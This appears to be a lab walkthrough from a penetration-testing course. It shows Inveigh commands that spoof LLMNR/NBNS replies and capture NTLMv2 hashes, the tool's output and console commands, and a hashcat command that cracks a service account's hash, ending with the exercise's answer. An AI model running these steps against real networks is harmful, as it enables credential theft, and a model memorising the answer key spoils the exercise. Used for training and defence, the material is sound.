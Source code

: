 If we end up with a Windows host as our attack box, use [Inveigh](https://github.com/Kevin-Robertson/Inveigh) tool to capture another set of credentials.
## Using Inveigh

-  List all possible parameters.
```powershell-session
PS C:\htb> Import-Module .\Inveigh.ps1
PS C:\htb> (Get-Command Invoke-Inveigh).Parameters
```

Let's start Inveigh with LLMNR and NBNS spoofing, and output to the console and write to a file. We will leave the rest of the defaults, which can be seen [here](https://github.com/Kevin-Robertson/Inveigh#parameter-help).

```powershell-session
PS C:\htb> Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```

## C# Inveigh (InveighZero)
Let's go ahead and run the C# version with the defaults and start capturing hashes.

```powershell-session
PS C:\htb> .\Inveigh.exe

[*] Inveigh 2.0.4 [Started 2022-02-28T20:03:28 | PID 6276]
[+] Packet Sniffer Addresses [IP 172.16.5.25 | IPv6 fe80::dcec:2831:712b:c9a3%8]
[+] Listener Addresses [IP 0.0.0.0 | IPv6 ::]
[+] Spoofer Reply Addresses [IP 172.16.5.25 | IPv6 fe80::dcec:2831:712b:c9a3%8]
[+] Spoofer Options [Repeat Enabled | Local Attacks Disabled]
[ ] DHCPv6
[+] DNS Packet Sniffer [Type A]
[ ] ICMPv6
[+] LLMNR Packet Sniffer [Type A]
[ ] MDNS
[ ] NBNS
[+] HTTP Listener [HTTPAuth NTLM | WPADAuth NTLM | Port 80]
[ ] HTTPS
[+] WebDAV [WebDAVAuth NTLM]
[ ] Proxy
[+] LDAP Listener [Port 389]
[+] SMB Packet Sniffer [Port 445]
[+] File Output [C:\Tools]
[+] Previous Session Files (Not Found)
[*] Press ESC to enter/exit interactive console
[!] Failed to start HTTP listener on port 80, check IP and port usage.
[!] Failed to start HTTPv6 listener on port 80, check IP and port usage.
[ ] [20:03:31] mDNS(QM)(A) request [academy-ea-web0.local] from 172.16.5.125 [disabled]
[ ] [20:03:31] mDNS(QM)(AAAA) request [academy-ea-web0.local] from 172.16.5.125 [disabled]
[ ] [20:03:31] mDNS(QM)(A) request [academy-ea-web0.local] from fe80::f098:4f63:8384:d1d0%8 [disabled]
[ ] [20:03:31] mDNS(QM)(AAAA) request [academy-ea-web0.local] from fe80::f098:4f63:8384:d1d0%8 [disabled]
[+] [20:03:31] LLMNR(A) request [academy-ea-web0] from 172.16.5.125 [response sent]
[-] [20:03:31] LLMNR(AAAA) request [academy-ea-web0] from 172.16.5.125 [type ignored]
[+] [20:03:31] LLMNR(A) request [academy-ea-web0] from fe80::f098:4f63:8384:d1d0%8 [response sent]
[-] [20:03:31] LLMNR(AAAA) request [academy-ea-web0] from fe80::f098:4f63:8384:d1d0%8 [type ignored]
[ ] [20:03:32] mDNS(QM)(A) request [academy-ea-web0.local] from 172.16.5.125 [disabled]
[ ] [20:03:32] mDNS(QM)(AAAA) request [academy-ea-web0.local] from 172.16.5.125 [disabled]
[ ] [20:03:32] mDNS(QM)(A) request [academy-ea-web0.local] from fe80::f098:4f63:8384:d1d0%8 [disabled]
[ ] [20:03:32] mDNS(QM)(AAAA) request [academy-ea-web0.local] from fe80::f098:4f63:8384:d1d0%8 [disabled]
[+] [20:03:32] LLMNR(A) request [academy-ea-web0] from 172.16.5.125 [response sent]
[-] [20:03:32] LLMNR(AAAA) request [academy-ea-web0] from 172.16.5.125 [type ignored]
[+] [20:03:32] LLMNR(A) request [academy-ea-web0] from fe80::f098:4f63:8384:d1d0%8 [response sent]
[-] [20:03:32] LLMNR(AAAA) request [academy-ea-web0] from fe80::f098:4f63:8384:d1d0%8 [type ignored]
```

- The options with a `[+]` are default and enabled by default and the ones with a `[ ]` before them are disabled.
- Message `Press ESC to enter/exit interactive console`, which is very useful while running the tool. The console gives us access to captured credentials/hashes, allows us to stop Inveigh, and more.

Hit the `esc` key to enter the console while Inveigh is running.

```powershell-session
<SNIP>

[+] [20:10:24] LLMNR(A) request [academy-ea-web0] from 172.16.5.125 [response sent]
[+] [20:10:24] LLMNR(A) request [academy-ea-web0] from fe80::f098:4f63:8384:d1d0%8 [response sent]
[-] [20:10:24] LLMNR(AAAA) request [academy-ea-web0] from fe80::f098:4f63:8384:d1d0%8 [type ignored]
[-] [20:10:24] LLMNR(AAAA) request [academy-ea-web0] from 172.16.5.125 [type ignored]
[-] [20:10:24] LLMNR(AAAA) request [academy-ea-web0] from fe80::f098:4f63:8384:d1d0%8 [type ignored]
[-] [20:10:24] LLMNR(AAAA) request [academy-ea-web0] from 172.16.5.125 [type ignored]
[-] [20:10:24] LLMNR(AAAA) request [academy-ea-web0] from fe80::f098:4f63:8384:d1d0%8 [type ignored]
[-] [20:10:24] LLMNR(AAAA) request [academy-ea-web0] from 172.16.5.125 [type ignored]
[.] [20:10:24] TCP(1433) SYN packet from 172.16.5.125:61310
[.] [20:10:24] TCP(1433) SYN packet from 172.16.5.125:61311
C(0:0) NTLMv1(0:0) NTLMv2(3:9)> HELP
```

After typing `HELP` and hitting enter, we are presented with several options:

```powershell-session
=============================================== Inveigh Console Commands ===============================================

Command                           Description
========================================================================================================================
GET CONSOLE                     | get queued console output
GET DHCPv6Leases                | get DHCPv6 assigned IPv6 addresses
GET LOG                         | get log entries; add search string to filter results
GET NTLMV1                      | get captured NTLMv1 hashes; add search string to filter results
GET NTLMV2                      | get captured NTLMv2 hashes; add search string to filter results
GET NTLMV1UNIQUE                | get one captured NTLMv1 hash per user; add search string to filter results
GET NTLMV2UNIQUE                | get one captured NTLMv2 hash per user; add search string to filter results
GET NTLMV1USERNAMES             | get usernames and source IPs/hostnames for captured NTLMv1 hashes
GET NTLMV2USERNAMES             | get usernames and source IPs/hostnames for captured NTLMv2 hashes
GET CLEARTEXT                   | get captured cleartext credentials
GET CLEARTEXTUNIQUE             | get unique captured cleartext credentials
GET REPLYTODOMAINS              | get ReplyToDomains parameter startup values
GET REPLYTOHOSTS                | get ReplyToHosts parameter startup values
```

- View unique captured hashes by typing `GET NTLMV2UNIQUE`.
- Type in `GET NTLMV2USERNAMES` and see which usernames we have collected.

---
# Practical Exercises
- Run Inveigh and capture the NTLMv2 hash for the svc_qualys account. Crack and submit the cleartext password as the answer.

```
.\Inveigh.exe
GET NTLMV2UNIQUE
```

![](../../Image/Pasted%20image%2020250607234051.png)

```
sudo hashcat -m 5600 svc_qualys /usr/share/wordlists/rockyou.txt
```

![](../../Image/Pasted%20image%2020250607234113.png)

=> Answer: **security#1**